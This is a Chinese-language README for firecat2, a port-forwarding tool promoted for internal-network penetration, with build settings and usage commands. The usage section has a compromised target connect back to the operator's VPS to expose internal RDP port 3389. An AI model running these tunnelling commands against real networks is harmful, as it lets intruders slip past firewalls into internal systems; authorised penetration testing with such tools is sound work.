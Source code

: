 # firecat2


>内网渗透（建立数据转发隧道）必备神器，没有之一。firecat2 移除了反弹shell代码，仅保留了转发tunnel功能。


###编译环境

Microsoft Visual Studio Professional 2012

OS 
Microsoft Windows Embedded 8.1 Industry Pro

on Linux
>gcc -o firecat.exe firecat.c -lwsock32


###注意几个地方
* 配置属性-常规 字符集  使用多字节字符集
* C/C++ -常规   附加包含目录 配置问include头文件目录
* 连接器-常规   附加库目录 配置为lib库文件目录
* 配置属性-常规 平台工具集 vs-xp(可选)
* 调试时, 在监视1窗口(Watch 1)中输入 $err,hr 获取GetLastError()


###如何使用

以转发内网3389端口为例

在你的VPS机器上监听80端口和任意端口（51）
>firecat -m 0 -t 80 -s 51

在目标机上回连你的VPS
>firecat -m 1 -h yourvps -t 80 -l localip -s 3389

本地mstsc连接 127.0.0.1:51
